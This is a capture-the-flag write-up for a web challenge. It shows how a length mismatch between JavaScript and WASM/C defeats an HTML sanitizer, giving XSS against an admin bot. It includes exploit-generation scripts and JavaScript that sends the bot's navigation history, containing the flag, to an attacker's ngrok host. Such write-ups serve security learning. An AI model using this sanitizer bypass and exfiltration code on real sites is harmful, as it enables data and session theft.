




# Chatroom v0

| 📁 Category  | 👨‍💻 Creator | 📝 Writeup By                           |
| ------------ | ---------- | --------------------------------------- |
| Web (Medium) | bhavya_32  | [Vexcited](https://github.com/Vexcited) |

> JS is slow, so I made HTML sanitizer with WASM, but someone exfiltrated all my private chats :(

## Solution



This challenge is about a chatroom where you can send messages and a bot will instantly reply to you with a random response.

### Reading server code

The web server is made with Express and is as simple as this.

```javascript
const { visit } = require("./bot");

app.use(express.static(path.join(__dirname, "static")));

app.get("/", (req, res) => {
  res.sendFile("index.html");
});

app.get("/bot", (req, res) => {
  visit(req.query.visit);
  res.send("ok");
});

app.listen(3000, () => {
  console.log("Server is running on port 3000");
});
```

`GET /bot` route is apparently visiting something coming from the user, let's take a look at the code of the `visit` function.

```javascript
const puppeteer = require("puppeteer");

const FLAG = process.env.FLAG || "07CTF{example_flag}";

async function visit(id) {
  const browser = await puppeteer.launch({
    args: ["--no-sandbox", "--headless"],
    executablePath: "/usr/bin/google-chrome",
  });

  try {
    const page = await browser.newPage();

    visit = `[{"action":"add","content":"${FLAG}","time":1729881873363}]`;
    await page.goto(`http://localhost:3000/?s=${btoa(visit)}`);
    await new Promise((resolve) => setTimeout(resolve, 3000));

    await page.goto(`http://localhost:3000/?s=${id}`, { timeout: 5000 });
    await new Promise((resolve) => setTimeout(resolve, 3000));

    await page.close();
    await browser.close();
  } catch (e) {
    console.log(e);
    await browser.close();
  }
}

module.exports = { visit };
```

1. It goes to `http://localhost:3000/?s=btoa(OBJECT_WITH_FLAG_SOMEWHERE)`
2. It goes to our URL we provided with query param `visit` from earlier

### Reading client code

Let's see how the `s` URL parameter is handled when loading the page.

```javascript
serialized = new URLSearchParams(window.location.search).get("s");
if (serialized) {
  todo = JSON.parse(atob(serialized));

  todo.forEach((step) => {
    if (step.action == "add") {
      addmsg(step.content, step.time, true);
    } else if (step.action == "delete") {
      api.deletemsg(step.msgId, api.deletemsgCallback);
    } else if (step.action == "edit") {
      editMsg(step.msgId, step.content, step.time, true);
    }
  });
  api.populateMsgs(api.populateMsgsCallback);
  rendermsgs();
}
```

`s` is actually an array of all the operations done with the messages of the page.

If we remember the payload from the bot, `[{"action":"add","content":"${FLAG}","time":1729881873363}]`, the `action` we're looking for is `add`. This operation
is simple, it adds the message contained in property `content`.

Let's dive into the `addmsg` function to see how it is displayed.

```javascript
const reportUrl = document.getElementById("report-url");
const saved = [];

const addmsg = (content, time, isBatched = false) => {
  saved.push({
    action: "add",
    content: content,
    time: time,
  });

  reportUrl.href = `${window.location.origin}?s=${btoa(JSON.stringify(saved))}`;

  const msgId = api.addmsg(content, content.length, time, 0);
  if (msgId < 0) return;

  if (!isBatched) {
    api.populateMsgs(api.populateMsgsCallback);
    rendermsgs();
  }
};

// ... later on ...

api.populateMsgs = Module.cwrap("populateMsgHTML", null, ["number"]);
api.populateMsgsCallback = Module.addFunction(populateMsgs, "iiiii");

api.addmsg = Module.cwrap("addMsg", "number", [
  "string",
  "number",
  "number",
  "number",
]);
```

It persists the add operation in a `saved` array, which has the same purpose
of that `s` query parameter. It can be proven by the `reportUrl.href` URL update
right after using that `saved` variable, converted to base 64.

Adding a message actually calls a function located in a WASM module: `api.addmsg()`.
Messages are displayed to the UI with `api.populateMsgs` and its callback `api.populateMsgsCallback`.

Maybe we can perform an `add` action to trigger an XSS when the bot visits our link ? That'll probably give us a way to navigate back and retrieve the flag from the URL! Let's try this...

### Messing with messages

Trying to create a message with `` will give `.img src=x onerror=alert(1).` as output, there's something going on in the C `addMsg` function.



```c
EMSCRIPTEN_KEEPALIVE
int addMsg(char *content, size_t content_len, int time, int status)
{
  sanitize(content, content_len);
  size_t total_len = strlen(content);
  char *saved = (char *)malloc(total_len + 1);
  if (saved == NULL)
    return -1;
  memcpy(saved, content, total_len + 1);
  memset(content, '\0', content_len);
  msg new_msg;
  new_msg.msg_data = saved;
  new_msg.msg_data_len = total_len;
  new_msg.msg_time = time;
  new_msg.msg_status = status;

  return add_msg_to_stuff(&s, new_msg);
};
```

Here it is, `sanitize(content, content_len)` might be the reason our characters
are translated into dots.

```c
void sanitize(char *data, size_t len)
{
  if (data == NULL)
    return;

  for (size_t i = 0; i < len; ++i)
  {
    char c = data[i];
    if (c == '<' || c == '>' || c == '&' || c == '"' || c == '\'')
    {
      data[i] = '.';
    }
  }
}
```

`sanitize` iterates from `0` to the given `len` (coming from JS' [`String: length`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/length)) and replaces `<>&"'` to `.`

We have to find a way to manipulate the length given from the JS so it can
ignore our XSS characters.

### Strings between JS and C

When we're converting our JS string to C bytes, what is happening under the hood?
Let's read some code from the generated `module.js`.

```javascript
var stringToUTF8OnStack = (str) => {
  // 1. get length
  var size = lengthBytesUTF8(str) + 1;
  var ret = stackAlloc(size);
  // 2. convert the string to bytes (array)
  stringToUTF8(str, ret, size);
  return ret;
};

var stringToUTF8 = (str, outPtr, maxBytesToWrite) =>
  stringToUTF8Array(str, HEAPU8, outPtr, maxBytesToWrite);

// this is where the conversion happens!
var stringToUTF8Array = (str, heap, outIdx, maxBytesToWrite) => {
  if (!(maxBytesToWrite > 0)) return 0;

  var startIdx = outIdx;
  var endIdx = outIdx + maxBytesToWrite - 1;

  for (var i = 0; i < str.length; ++i) {
    var code = str.charCodeAt(i);

    // normal characters would end up here!
    if (code <= 127) {
      if (outIdx >= endIdx) break;
      // creating only one char: one byte
      heap[outIdx++] = code;
    }
    // ...but what if, our charcode is >127 ?
    else if (code <= 2047) {
      if (outIdx + 1 >= endIdx) break;
      // we create two bytes!
      heap[outIdx++] = 192 | (code >> 6);
      heap[outIdx++] = 128 | (code & 63);
    }
    // ...
  }

  heap[outIdx] = 0;
  return outIdx - startIdx;
};
```

We can make a single character have two bytes if we input a character which code is >127.

Also, we're limited to characters <255 because `btoa` and `atob` only support Latin1 characters.

```javascript
> String.fromCharCode(255)
'ÿ'
> 'ÿ'.length
1
```

If we input the letter `ÿ`, we have a `length` of `1` in the JS side but
what do we get on the C side now? Let's get the bytes of the charcode `255`.

```javascript
// 255 is the charcode.
> 192 | (255 >> 6)
195 // 0xC3
> 128 | (255 & 63)
191 // 0xBF
```

See! We get two bytes!

To demonstrate how this could go wrong, let's simulate a message with content `ÿ<` using the C program, slightly modified for debug purposes.

```c
#include <stdio.h>

void sanitize(char *data, size_t len)
{
  if (data == NULL)
    return;

  for (size_t i = 0; i < len; ++i)
  {
    char c = data[i];

    // debug: let's see where we are iterating
    printf("iterating to %02X\n", c);

    if (c == '<' || c == '>' || c == '&' || c == '"' || c == '\'')
    {
      data[i] = '.';
    }
  }
}

int main(void)
{
  // "ÿ<".length gives 2!
  size_t content_len = 2;

  // ...but internally we get 3 bytes! (well... 4 with the null byte)
  unsigned char content[] = {
    0xC3, 0xBF, // `ÿ` bytes
    '<',        // `<` byte
    0           // `heap[outIdx] = 0;` from `stringToUTF8Array()`
  };

  sanitize((char *)content, content_len);

  return 0;
}
```

```sh
$ gcc demo.c
$ ./a.out
iterating to FFFFFFC3
iterating to FFFFFFBF
```

See how it's not iterating to the `<` character because we got the wrong length from JS?

That's right, here's our exploit to bypass that sanitizer.

### XSS

Now, if we have to perform an XSS, we know we need to have `ÿ` repeated
as much time as our real payload as prefixed. For example...

```

```

Would need...

```
ÿÿÿÿÿ
```

We can simply automate this.

```typescript
const letter = "ÿ";
const exploit = "";
console.log(letter.repeat(exploit.length) + exploit);
```

Let's actually generate URLs we can paste using the `s` query parameter.

```typescript
const letter = "ÿ";
const exploit = "";
const param = `[{"action":"add","content":"${
  letter.repeat(exploit.length) + exploit
}","time":${Date.now()}}]`;

console.log("http://localhost:3000/?s=" + btoa(param));
```

```sh
$ bun run exploit.ts
http://localhost:3000/?s=W3siYWN0aW9uIjoiYWRkIiwiY29udGVudCI6Iv///////////////////////////////////zxpbWcgc3JjPXggb25lcnJvcj1hbGVydCgpPiIsInRpbWUiOjE3NTc4OTI1NjgxMDJ9XQ==
```



It works! Let's find a way to retrieve history from there...

### Experimental API

After some research I found about this experimental API called [Navigation API](https://developer.mozilla.org/en-US/docs/Web/API/Navigation_API).

> The Navigation API provides the ability to initiate, intercept, and manage browser navigation actions. **It can also examine an application's history entries.**

Looks like to be exactly what we need, while scrolling through the methods
I stumbled upon [`Navigation.entries()`](https://developer.mozilla.org/en-US/docs/Web/API/Navigation/entries).

> The entries() method of the `Navigation` interface returns an array of `NavigationHistoryEntry` objects representing all existing history entries.

`NavigationHistoryEntry` contains the URL of the entry. This is all we need!

### Hello, bot!

Let's run a temporary server that logs all the requests.

```sh
$ python -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

Let's expose our server, I'll use [`ngrok`](https://ngrok.com/) to do this quickly.

```sh
$ ngrok http 8000
# Gave me `https://6d9ab6a38124.ngrok-free.app`!
```

What I'll do is update the current location to my own webserver with the query
parameter `v` that'll contain `navigation.entries()` as JSON. I'll map the `url` property only otherwise it'll return empty objects on `JSON.stringify`.

```javascript
location.href =
  `//6d9ab6a38124.ngrok-free.app/?v=` +
  encodeURIComponent(
    JSON.stringify(
      navigation.entries``.map(function (e) {
        return e.url;
      })
    )
  );
```

Let's put this in practice using the script we did earlier!

```typescript
const letter = "ÿ";
const exploit = ``;

const param = `[{"action":"add","content":"${
  letter.repeat(exploit.length) + exploit
}","time":${Date.now()}}]`;

await fetch(
  `http://931cb5feb4.ctf.0bscuri7y.xyz/bot?visit=${encodeURIComponent(
    btoa(param)
  )}`
);
```

Run the exploit and wait... more than three seconds... \
...until we get a request from the bot!

Once the bot gave us all the entries, we can decode the URL and also decode
the base 64 from the `s` query parameter.



`07CTF{why_DId_7hE_COnT3nt_1EnG7H_CHAnge_bRuh}`

Solved!
